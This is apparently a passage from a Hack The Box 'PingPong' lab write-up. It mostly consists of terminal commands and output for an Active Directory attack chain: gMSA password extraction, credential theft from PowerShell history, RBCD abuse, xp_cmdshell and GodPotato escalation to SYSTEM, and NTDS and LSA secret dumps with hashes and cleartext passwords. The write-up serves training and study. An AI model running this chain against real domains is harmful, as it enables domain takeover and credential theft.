Building wheels for collected packages: ldeep, commandparse
  Building wheel for ldeep (pyproject.toml) ... done
  Created wheel for ldeep: filename=ldeep-1.0.90.dev59+g89abc02-py3-none-any.whl size=55463 sha256=70af2b9eb90d8095ed255e3b968b828dadaa931cb6489b962b9113ab851437cf
  Stored in directory: /tmp/pip-ephem-wheel-cache-kt4etywo/wheels/cf/fe/75/437243430fef05e6e572599bdceecdb83b78de157f31d65ea8
  Building wheel for commandparse (pyproject.toml) ... done
  Created wheel for commandparse: filename=commandparse-1.1.2-py3-none-any.whl size=5836 sha256=479297bfe95d4b38101526213adf4aacd6917119b601e197ce6567a420a59aa0
  Stored in directory: /home/kali/.cache/pip/wheels/91/28/07/6890f305c16ba17c5f642df176d0609a664ed52cdcaebfcae9
Successfully built ldeep commandparse
Installing collected packages: commandparse, asn1crypto, tqdm, termcolor, six, pycryptodomex, pycryptodome, pycparser, pyasn1, oscrypto, dnspython, decorator, gssapi, cffi, cryptography, ldap3-bleeding-edge, ldeep
Successfully installed asn1crypto-1.5.1 cffi-2.0.0 commandparse-1.1.2 cryptography-47.0.0 decorator-5.2.1 dnspython-2.8.0 gssapi-1.11.1 ldap3-bleeding-edge-2.10.1.1337 ldeep-1.0.90.dev59+g89abc02 oscrypto-1.3.0 pyasn1-0.6.3 pycparser-3.0 pycryptodome-3.23.0 pycryptodomex-3.23.0 six-1.17.0 termcolor-3.3.0 tqdm-4.67.3
```

The `credential cache` file and `krb5.conf` were copied into the `ldeep` working directory before querying the `gMSA` password.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ cp /mnt/cybersecurity/notes/HTB/Machines/PingPong/files/c.roberts.ccache .

```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ export KRB5CCNAME=c.roberts.ccache
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ cp /mnt/cybersecurity/notes/HTB/Machines/PingPong/files/krb5.conf .
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ export KRB5_CONFIG=krb5.conf
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/ldeep]
└─$ ldeep ldap -u c.roberts -k -d pong.htb -s ldap://DC2.pong.htb gmsa 
Pong_gMSA$:nthash:4b85a2a049588810c1267e4018b07a07
Pong_gMSA$:aes128-cts-hmac-sha1-96:c48ae0b9895ebd9e1fe44ce34d3b696e
Pong_gMSA$:aes256-cts-hmac-sha1-96:9a3d021763ac0f2ceb3b629eddf92fee758a3ba6fce28269a2d35a3e252e539a
Pong_gMSA$:reader:gMSA Managers (group)
```

A `TGT` was obtained for `Pong_gMSA$` using the `AES256` key against `DC2.pong.htb`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-getTGT 'pong.htb/Pong_gMSA$' -aesKey 9a3d021763ac0f2ceb3b629eddf92fee758a3ba6fce28269a2d35a3e252e539a -dc-ip 192.168.2.2
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Pong_gMSA$.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME='Pong_gMSA$.ccache'
```

- [https://github.com/gatariee/minrm](https://github.com/gatariee/minrm)

`minrm` was used to connect to the `restricted` `JEA` endpoint on `DC1` as `Pong_gMSA$`. `Just Enough Administration` (`JEA`) is a `PowerShell` remoting endpoint that constrains what the connecting user can do — the session runs under a virtual account or `gMSA` on the server side, with a `ConstrainedLanguage` `PowerShell` environment that blocks arbitrary code execution. Certain `cmdlets` remain available, and the session runs in the context of the configured virtual account. The key insight here is that the `JEA` session runs as `Pong_gMSA$` on the server, meaning the session has read access to `Pong_gMSA$`'s user profile — including `PSReadLine` history.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ minrm -i DC1.ping.htb -k --krb-ccache Pong_gMSA$.ccache --krb-conf krb5.conf -c restricted
[kerberos@dc1.ping.htb] PS> 
```

A staging directory was created from the `C.Roberts` `Evil-WinRM` session and the `PSReadLine` history file from `Pong_gMSA$`'s profile was copied there via the `JEA` session.

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> mkdir C:\temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/26/2026   6:03 PM                temp
```

```shell
[kerberos@dc1.ping.htb] PS> &{Copy-Item "C:\Users\Pong_gMSA$\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Destination "C:\Temp\history.txt"}
Output:
```

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> dir C:\temp\


    Directory: C:\temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/21/2026   3:24 PM           2890 history.txt
```

Reviewing the history file recovered a `PowerShell` credential construction line that embedded the `cleartext password` for `C.Carlssen` in `pong.htb`.

```cmd
*Evil-WinRM* PS C:\Users\C.Roberts\Documents> type C:\temp\history.txt
ls
ls -force
hostname
whoami
whoami /all
Get-ExecutionPolicy
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Get-Help Get-Process
Get-Process
Get-Process | Sort-Object CPU -Descending
Get-Service
Get-Service | Where-Object Status -eq "Running"
Get-Service | Where-Object StartType -eq "Automatic"
gci
gci C:\
Getchilditem \Windows
Set-Location C:\Users\
ls
cd.\Public
ls
cd C:\
gic -Recurse -ErrorAction SilentlyContinue
gci -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Filter *.log
Get-ChildItem -Recurse -Include *.txt
Clear-Host
Get-Command
Get-Command *service*
Get-Command *process*
Get-CimInstance Win32_OperatingSystem
Get-CimInstance Win32_ComputerSystem
Get-CimInstance Win32_Process
Get-CimInstance Win32_LogicalDisk
Get-CimInstance Win32_BIOS
Get-Alias
Get-History
ipconfig
ipconfig /all
ping google.com
netstat -ano
Test-NetConnection google.com
Test-NetConnection google.com -Port 443
Get-DnsClientServerAddress
Set-DnsClientServerAddress -InterfaceAlias "Ethernet" -ServerAddresses 8.8.8.8
tasklist
tasklist /v
ls
ls -force
Get-Process explorer
Get-EventLog -LogName System -Newest 20
Get-EventLog -LogName Application -Newest 20
Get-WinEvent -LogName Security -MaxEvents 10
Clear-EventLog -LogName Application
$env:Path
Get-PSDrive
Get-PSProvider
Get-
Get-Module -ListAvailable
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter *
Get-ADUser -Identity Administrator
Get-ADGroup -Filter * -Server pong.htb
Getadgroup
Get-adgroup "remote management users" -server pong.htb
$c = New-object System.management.automation.pscredential("pong\c.carlssen,$(convertto-securestring -asplaintext -force "A()DUJ!@414"))
Enter-pssession -computername dc2.pong.htb -credential $c
Get-ADComputer -Filter *
Get-ADUser -Filter * | Select-Object Name
Get-ADUser -Filter * | Export-Csv users.csv -NoTypeInformation
Import-Csv users.csv
gc -raw users.csv
cd C:\Temp
Copy-Item users.csv backup_users.csv
Move-Item backup_users.csv archive_users.csv
rm -f *.csv
Get-ScheduledTask
Get-ScheduledTask | Where-Object State -eq "Ready"
Restart-Service spooler
Stop-Service spooler
Start-Service spooler
Set-Service spooler -StartupType Automatic
Get-Service spooler
Get-Process powershell
Get-Process pwsh
$PSVersionTable
Get-Host
Clear-History
Get-History
Measure-Command { Get-Process }
ForEach ($i in 1..10) { Write-Output $i }
1..10 | ForEach-Object { $_ * 2 }
1..10 | Where-Object { $_ -gt 5 }
$numbers = 1..100
$numbers | Measure-Object -Sum
$numbers | Measure-Object -Average
$numbers | Sort-Object -Descending
$numbers | Select-Object -First 10
Get-ChildItem HKLM:\Software
Get-ChildItem HKCU:\Software
Get-Command -Module Microsoft.PowerShell.Management
Save-Help -DestinationPath C:\Help
Get-PSReadLineOption
Set-PSReadLineOption -PredictionSource History
Clear-Host
iwr -useb https://github.com/fleschutz/PowerShell/blob/main/scripts/play-mission-impossible.ps1

Exit
```

| Username   | Password    |
| ---------- | ----------- |
| c.carlssen | A()DUJ!@414 |

A `TGT` was obtained for `C.Carlssen` against `DC2` and used to open a `WinRM` session on `pong.htb`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-getTGT pong.htb/c.carlssen:'A()DUJ!@414' -dc-ip 192.168.2.2                                                                                 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.carlssen.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.carlssen.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ evil-winrm -i DC2.pong.htb -r pong.htb                                              
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents>
```

## user.txt

```cmd
*Evil-WinRM* PS C:\Users\C.Carlssen\Desktop> type user.txt
f7db298d3bf6dfb72e466f13da2dc815
```

## Enumeration (C.Carlssen)

Checking identity on `DC2` showed `C.Carlssen` was a member of `PONG\IT Service Admins` — a non-default group. `BloodHound` revealed this group held `GenericWrite` over `svc_sql`, a service account configured as the `SQL Server` service principal. Service accounts running database services are granted `SeImpersonatePrivilege` by default, making them a viable target for token impersonation attacks.

```cmd
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ==============================================
pong\c.carlssen S-1-5-21-2410575906-3092493790-2123333151-1110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
pong\IT Service Admins                     Group            S-1-5-21-2410575906-3092493790-2123333151-1108 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```



## Privilege Escalation to SYSTEM (DC2)

## Privilege Escalation to svc_sql and C.Adam

### Access Control Entry (ACE) GenericWrite Abuse through Resource-Based Constrained Delegation (RBCD)

`Resource-Based Constrained Delegation` (`RBCD`) is a `Kerberos` delegation mechanism where the target resource — rather than the delegating account — controls which principals are permitted to impersonate users to it. This is configured by writing a principal's `SID` into the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target object. An attacker with `GenericWrite` over a target account can write any controllable principal into this attribute, then use `S4U2Self` to obtain a service ticket for themselves impersonating an arbitrary user, followed by `S4U2Proxy` to exchange that ticket for a service ticket to the target — resulting in full impersonation of any domain user to that service, including administrators. In this case `C.Carlssen`'s `GenericWrite` over `svc_sql` allowed writing `Pong_gMSA$` into `svc_sql`'s `RBCD` attribute, then impersonating `C.Adam` (a database admin) to the `MSSQL` service.



`bloodyAD` was used to configure `RBCD` on `svc_sql` with `Pong_gMSA$` as the trusted delegation principal.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.carlssen.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host DC2.pong.htb --dc-ip 192.168.2.2 -d pong.htb -k add rbcd 'svc_sql' 'Pong_gMSA$'
[!] No security descriptor has been returned, a new one will be created
[+] Pong_gMSA$ can now impersonate users on svc_sql via S4U2Proxy
```

With `RBCD` configured, `Pong_gMSA$`'s `TGT` was loaded and `impacket-getST` performed the `S4U2Self` and `S4U2Proxy` chain to obtain a service ticket for `c.adam` against the `mssqlsvc/DC2.pong.htb` `SPN`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME='Pong_gMSA$.ccache'
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-getST -k -no-pass -spn 'mssqlsvc/DC2.pong.htb' -impersonate 'c.adam' -dc-ip 192.168.2.2 pong.htb/'Pong_gMSA$'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating c.adam
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in c.adam@mssqlsvc_DC2.pong.htb@PONG.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME='c.adam@mssqlsvc_DC2.pong.htb@PONG.HTB.ccache'
```

The `MSSQL` service was connected to as `C.Adam` using the impersonated service ticket.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-mssqlclient -k -no-pass DC2.pong.htb -dc-ip 192.168.2.2
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC2): Line 1: Changed database context to 'master'.
[*] INFO(DC2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (pong\C.Adam  dbo@master)>
```

### Add C.Carlssen to Local Administrators Group

`xp_cmdshell` was enabled via `sp_configure` and `EXEC xp_cmdshell` confirmed execution as `pong\svc_sql` — a `NETWORK SERVICE`-equivalent account running the `SQL Server` process, which carries `SeImpersonatePrivilege`.

```shell
SQL (pong\C.Adam  dbo@master)> EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
INFO(DC2): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

```

```shell
SQL (pong\C.Adam  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
INFO(DC2): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

```shell
SQL (pong\C.Adam  dbo@master)> EXEC xp_cmdshell 'whoami';
output         
------------   
pong\svc_sql   
NULL
```

`GodPotato` is a `Potato`-family privilege escalation tool that exploits `COM` object impersonation via `DCOM` to capture a `SYSTEM` token from the `RPCSS` service and use it to launch a process as `NT AUTHORITY\SYSTEM`. It requires `SeImpersonatePrivilege`, which `svc_sql` held through its service context. A staging directory was created on `DC2` and `GodPotato-NET4.exe` was uploaded and copied into it before being invoked via `xp_cmdshell` to add `C.Carlssen` to the local `Administrators` group.

- [https://github.com/BeichenDream/GodPotato/releases](https://github.com/BeichenDream/GodPotato/releases)

```cmd
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents> mkdir C:\temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/26/2026   6:23 PM                temp
```

```cmd
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents> upload GodPotato-NET4.exe
                                        
Info: Uploading /mnt/cybersecurity/notes/HTB/Machines/PingPong/files/GodPotato-NET4.exe to C:\Users\C.Carlssen\Documents\GodPotato-NET4.exe
                                        
Data: 76456 bytes of 76456 bytes copied
                                        
Info: Upload successful!
```

```cmd
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents> copy GodPotato-NET4.exe C:\temp\
```

```shell
SQL (pong\C.Adam  dbo@master)> EXEC xp_cmdshell 'C:\temp\GodPotato-NET4.exe -cmd "net localgroup administrators pong\c.carlssen /add"';
output                                                                                   
--------------------------------------------------------------------------------------   
[*] CombaseModule: 0x140722598838272                                                     
[*] DispatchTable: 0x140722601425224                                                     
[*] UseProtseqFunction: 0x140722600717856                                                
[*] UseProtseqFunctionParamCount: 6                                                      
[*] HookRPC                                                                              
[*] Start PipeServer                                                                     
[*] CreateNamedPipe \\.\pipe\f6ca8ddc-779d-446c-a544-205cae924e1d\pipe\epmapper          
[*] Trigger RPCSS                                                                        
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046                                  
[*] DCOM obj IPID: 0000e802-0c40-ffff-ab2c-192d816d38ac                                  
[*] DCOM obj OXID: 0x2acb2a06e56034a0                                                    
[*] DCOM obj OID: 0xce8902f5e14bf979                                                     
[*] DCOM obj Flags: 0x281                                                                
[*] DCOM obj PublicRefs: 0x0                                                             
[*] Marshal Object bytes len: 100                                                        
[*] UnMarshal Object                                                                     
[*] Pipe Connected!                                                                      
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE                                            
[*] CurrentsImpersonationLevel: Impersonation                                            
[*] Start Search System Token                                                            
[*] PID : 888 Token:0x756  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation   
[*] Find System Token : True                                                             
[*] UnmarshalObject: 0x80070776                                                          
[*] CurrentUser: NT AUTHORITY\SYSTEM                                                     
[*] process start with pid 2060                                                          
The command completed successfully.                                                      
NULL                                                                                     
NULL
```

With `C.Carlssen` added to local `Administrators`, a fresh `Evil-WinRM` session was opened to `DC2` which now ran at high integrity.

```cmd
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents> exit
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ evil-winrm -i DC2.pong.htb -r pong.htb
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents>
```

The elevated session confirmed full `BUILTIN\Administrators` membership and all administrative privileges, establishing `SYSTEM`-level access on `DC2`.

```cmd
*Evil-WinRM* PS C:\Users\C.Carlssen\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ==============================================
pong\c.carlssen S-1-5-21-2410575906-3092493790-2123333151-1110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
pong\IT Service Admins                     Group            S-1-5-21-2410575906-3092493790-2123333151-1108 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

With full administrative control over `DC2`, `NetExec` was used to dump `pong.htb`'s `NTDS`, followed by a full `secretsdump` via `Impacket` that also recovered `LSA` secrets — including the cleartext `svc_sql` service account password and all domain `Kerberos` keys.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec smb DC2.pong.htb -k --use-kcache --ntds
SMB         DC2.pong.htb    445    DC2              [*]  x64 (name:DC2) (domain:pong.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         DC2.pong.htb    445    DC2              [+] PONG.HTB\c.carlssen from ccache (Pwn3d!)
SMB         DC2.pong.htb    445    DC2              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         DC2.pong.htb    445    DC2              Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b8ebfb6e9972babf9c01311748261a8:::
SMB         DC2.pong.htb    445    DC2              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         DC2.pong.htb    445    DC2              krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2850c6e9dfa66b220c3e013edbb23580:::
SMB         DC2.pong.htb    445    DC2              C.Carlssen:1110:aad3b435b51404eeaad3b435b51404ee:e15edce7e905644a94f0c34a0b05104e:::
SMB         DC2.pong.htb    445    DC2              M.Sun:1111:aad3b435b51404eeaad3b435b51404ee:deccbc15ace5cbf2d902f441783f1115:::
SMB         DC2.pong.htb    445    DC2              Z.Zhen:1112:aad3b435b51404eeaad3b435b51404ee:df023cb090b82c55e3e18e5fbc7f9bc3:::
SMB         DC2.pong.htb    445    DC2              A.Pearson:1113:aad3b435b51404eeaad3b435b51404ee:9a9250fa13ba7f4c25e1a5576f5b8a03:::
SMB         DC2.pong.htb    445    DC2              P.Sanchez:1114:aad3b435b51404eeaad3b435b51404ee:5261d93d06680fc00db5454eff3bcfc0:::
SMB         DC2.pong.htb    445    DC2              H.Gordon:1115:aad3b435b51404eeaad3b435b51404ee:2dc83c2f510d420be2bf3692e9cb7371:::
SMB         DC2.pong.htb    445    DC2              P.Reiner:1116:aad3b435b51404eeaad3b435b51404ee:6fa016af828999bda0e26861e00afb31:::
SMB         DC2.pong.htb    445    DC2              C.Adam:1117:aad3b435b51404eeaad3b435b51404ee:3dbc49f649cd0ed23ecd7d5071bcf00b:::
SMB         DC2.pong.htb    445    DC2              R.Rupert:1118:aad3b435b51404eeaad3b435b51404ee:8960e808108c23470cea0551d0399e8f:::
SMB         DC2.pong.htb    445    DC2              svc_sql:1119:aad3b435b51404eeaad3b435b51404ee:9e5de13bde362ad5cc68a49d26301c3b:::
SMB         DC2.pong.htb    445    DC2              svc_print:1120:aad3b435b51404eeaad3b435b51404ee:e21d90eb3c651f4bfdf6606a4c07ffd5:::
SMB         DC2.pong.htb    445    DC2              svc_ldap:1121:aad3b435b51404eeaad3b435b51404ee:f49491f9d40172069146a9c907e4d510:::
SMB         DC2.pong.htb    445    DC2              R.Martinelli:1124:aad3b435b51404eeaad3b435b51404ee:d60fc26a0569b953a5cebd1392232630:::
SMB         DC2.pong.htb    445    DC2              DC2$:1000:aad3b435b51404eeaad3b435b51404ee:e12246a7e57232eec29791ba3273a5b9:::
SMB         DC2.pong.htb    445    DC2              Pong_gMSA$:1123:aad3b435b51404eeaad3b435b51404ee:4b85a2a049588810c1267e4018b07a07:::
SMB         DC2.pong.htb    445    DC2              PING$:1103:aad3b435b51404eeaad3b435b51404ee:9c3d799769aa410c3a8ca5121471808a:::
SMB         DC2.pong.htb    445    DC2              [+] Dumped 19 NTDS hashes to /home/kali/.nxc/logs/ntds/DC2_DC2.pong.htb_2026-04-27_032929.ntds of which 16 were added to the database
SMB         DC2.pong.htb    445    DC2              [*] To extract only enabled accounts from the output file, run the following command: 
SMB         DC2.pong.htb    445    DC2              [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC2_DC2.pong.htb_2026-04-27_032929.ntds | cut -d ':' -f1
```


`impacket-secretsdump` was used for a full dump including `LSA` secrets and `Kerberos` long-term keys, yielding the cleartext `svc_sql` service account password and the `AES256` key for various users like `R.Martinelli`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-secretsdump -k -no-pass 'pong.htb/c.carlssen@DC2.pong.htb' -dc-ip 192.168.2.2 -target-ip 192.168.2.2              
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xdee71f7ea0e118519be7765b9db41a65
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a24454d98e39a4a6d022b5d3e64c9e71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
pong\DC2$:plain_password_hex:64349515ca8aa48c1bda29023b423f5a8f46f50e2f28b37107f445781b64697dedd29b93a3b87e4acd6c624f9007a491512fce15fe7a59aacaea270c93c5c428464f0f730aebcc66bbadb36a93afa8cb82656e5ac1ab01d69bcccb030934f774bd0131135528f790883abfd3d00588a8600fd24cd722c0a4bc47ba43236d430caf04de2fc8410943e18a9a082df054429bf31043d6f69387bc43a855e3e550950054967cba3895bb36794c52aa78d2aa7e04e6e4c8adea63bd5b23146f055792c5bc3aa444abd35f2df404fff90989cfcc7fbc68f7f12174f77b454cbec13f206608970f5737350ff2ebf0acc8f440a8
pong\DC2$:aad3b435b51404eeaad3b435b51404ee:e12246a7e57232eec29791ba3273a5b9:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3fc94174d83a1bc9db957259e29130a9e19ccbef
dpapi_userkey:0xaa394100f064e1d1a6e0ad4366e0ea391358ba52
[*] NL$KM 
 0000   04 44 D9 97 85 D7 4A 1F  C5 A3 4E 26 3C 19 05 D1   .D....J...N&<...
 0010   D9 A3 20 EA 3A B3 AA A2  AC B1 30 76 BE 34 25 11   .. .:.....0v.4%.
 0020   27 03 89 80 C7 2C C3 FF  36 71 63 EA 9C ED 92 C7   '....,..6qc.....
 0030   8C 3B 31 75 38 96 2B 6E  D9 DB 61 30 D9 11 B3 63   .;1u8.+n..a0...c
NL$KM:0444d99785d74a1fc5a34e263c1905d1d9a320ea3ab3aaa2acb13076be34251127038980c72cc3ff367163ea9ced92c78c3b317538962b6ed9db6130d911b363
[*] _SC_MSSQLSERVER 
PONG\svc_sql:This!IsAServi@ceA1231ccount
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b8ebfb6e9972babf9c01311748261a8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2850c6e9dfa66b220c3e013edbb23580:::
C.Carlssen:1110:aad3b435b51404eeaad3b435b51404ee:e15edce7e905644a94f0c34a0b05104e:::
M.Sun:1111:aad3b435b51404eeaad3b435b51404ee:deccbc15ace5cbf2d902f441783f1115:::
Z.Zhen:1112:aad3b435b51404eeaad3b435b51404ee:df023cb090b82c55e3e18e5fbc7f9bc3:::
A.Pearson:1113:aad3b435b51404eeaad3b435b51404ee:9a9250fa13ba7f4c25e1a5576f5b8a03:::
